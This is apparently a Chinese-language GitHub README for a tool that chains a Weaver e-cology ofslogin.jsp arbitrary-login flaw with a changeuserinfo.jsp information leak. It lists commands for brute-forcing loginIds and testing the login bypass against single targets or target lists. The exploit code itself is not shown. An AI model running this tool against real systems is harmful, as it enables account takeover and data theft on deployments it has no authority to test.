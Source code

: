 # 泛微ofslogin.jsp任意用户登录&changeuserinfo.jsp信息泄漏漏洞组合利用工具

# 本工具仅供学习测试使用，请勿用于非法用途！！



## 使用

使用前安装依赖

```
pip intall -r requirements.txt
```

1.单个目标爆破loginId并测试ofslogin任意用户登录漏洞

```sh
python3 ecology_ofsLogin_brute.py -u url
```

2.多个目标爆破loginId并测试ofslogin任意用户登录漏洞(为快速测试，ofslogin漏洞仅测试一次，之后进入下一个url)

```sh
python3 ecology_ofsLogin_brute.py -f file.txt
```

3.仅爆破loginId(单个目标)

```sh
python3 ecology_ofsLogin_brute.py -u url --brute --loginId
```

4.仅爆破loginId(多个目标)

```sh
python3 ecology_ofsLogin_brute.py -f file.txt --brute --loginId
```

5.仅爆破ofslogin漏洞(单个目标)

```sh
python3 ecology_ofsLogin_brute.py -u url -l loginid.txt --brute --ofsLogin
```

6.仅爆破ofslogin漏洞(多个目标)

```sh
python3 ecology_ofsLogin_brute.py -f file.txt -l loginid.txt --brute --ofsLogin
```

## 示例

因为是通过mobile模糊查询遍历，会有重复的loginId

![image-20230602161412416](https://github.com/A0WaQ4/blob/main/Weaver_ofslogin_vul/img/image-20230602161412416.png)

爆破成功后会自动生成`loginid.txt`和`result.txt`文件，用于保存爆破出的`loginId`和`ofslogin`漏洞结果	

![image-20230602161418855](https://github.com/A0WaQ4/blob/main/Weaver_ofslogin_vul/img/image-20230602161418855.png)

